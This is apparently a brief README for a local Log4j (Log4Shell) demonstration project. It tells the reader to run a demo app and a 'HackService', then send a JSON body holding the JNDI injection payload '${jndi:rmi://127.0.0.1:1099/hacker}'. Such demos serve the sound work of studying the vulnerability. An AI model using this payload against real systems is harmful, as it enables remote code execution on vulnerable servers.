 # log4jError
运行 DemoApplication.java 和 HackService.java，接着用 postman 调用即可，json格式body内："${jndi:rmi://127.0.0.1:1099/hacker}"。
